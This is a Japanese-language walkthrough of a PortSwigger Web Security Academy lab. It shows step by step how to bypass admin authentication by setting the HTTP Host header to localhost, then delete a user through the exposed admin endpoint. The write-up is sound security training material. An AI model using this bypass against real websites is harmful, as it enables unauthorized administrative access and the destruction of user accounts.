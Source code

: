 # ホストヘッダー認証バイパス

以下のハッキングラボを実施  
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass  
このラボでは、HTTP ホストヘッダーに基づいてユーザーの特権レベルを推測します。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2 　ブラウザからハッキングラボにアクセスします
- 3. GET / リクエストを send to repeater します
- 4. GET /robot.txt に書き換えて送信します

```
User-agent: *
Disallow: /admin
```

- 5. admin ページがあることが分かったので、GET /admin に書き換えて送信します。アクセス権限がないもののアクセス権限がローカルユーザーには存在するメッセージが確認できます

```
HTTP/2 401 Unauthorized
・・・
 Admin interface only available to local users
```

- 6. http ヘッダーに Host を localhost に変更して送信します

```
GET /admin HTTP/2
Host: localhost
```

レスポンスから一般ユーザーの削除リンクが確認できます

```
<a href="/admin/delete?username=carlos">Delete</a>
```

- 7. 次のリクエストを送ると一般ユーザーが削除できます

```
GET /admin/delete?username=carlos
```

